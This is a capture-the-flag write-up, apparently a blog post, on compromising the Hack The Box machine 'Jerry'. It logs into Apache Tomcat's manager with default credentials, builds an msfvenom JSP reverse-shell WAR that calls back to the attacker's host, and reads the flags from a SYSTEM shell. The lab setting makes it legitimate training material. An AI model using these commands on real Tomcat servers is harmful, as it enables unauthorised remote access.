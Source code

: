 ```yaml
---
permalink: /posts/HTB/Jerry
title:  "HTB Jerry"
author: Luc Kolen
description: "Jerry is an easy Windows machine on HTB running Apache Tomcat"
categories:
  - CTF
  - HTB
tags: 
  - HTB 
  - Windows 
  - Tomcat
---
```

# 10.10.10.95 - Jerry

- [10.10.10.95 - Jerry](#10101095---jerry)
  - [Open ports](#open-ports)
  - [Tomcat](#tomcat)

## Open ports

```bash
luc@kali:~/Documents/Cyber-security/HTB/Jerry$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.95
```

![NMAP results](/assets/images/HTB-Jerry-images/1.a%20NMAP%20results.png)

|Port|Service|
|---|---|
|8080/tcp|Apache Tomcat/Coyote JSP engine 1.1|

## Tomcat

The only available port is `8080` with Apache Tomcat running. Browsing to `http://10.10.10.95:8080/` only shows the default page so it hasn't been setup. A service that hasn't been setup has a high chance of using default credentials. Browsing to the admin panel at `http://10.10.10.95:8080/manager/html` shows us a 401 error message, but also the explanation on how to setup Tomcat and the default credentials `username:tomcat` and `password:s3cret`.

![Tomcat 401 page showing default credentials](/assets/images/HTB-Jerry-images/1.b%20Tomcat%20401%20page%20showing%20default%20credentials.png)

Refreshing the page and entering these credentials will show us the `Tomcat Web Application Manager`. This page allows us to deploy a WAR file on the server. We can use MSFVenom to create our payload as a WAR file.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Jerry/payload$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.16 LPORT=443 -f war > shell.war
```

![Upload created WAR file](/assets/images/HTB-Jerry-images/1.c%20Upload%20created%20WAR%20file.png)

Opening `http://10.10.10.95:8080/shell/` after uploading our WAR file will execute the payload and open a connection to the Netcat listener. Tomcat was running as system so there is no need for privilege escalation.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Jerry$ sudo nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.95.
Ncat: Connection from 10.10.10.95:49193.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
nt authority\system
C:\apache-tomcat-7.0.88>cd ../Users/Administrator/Desktop/flags
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
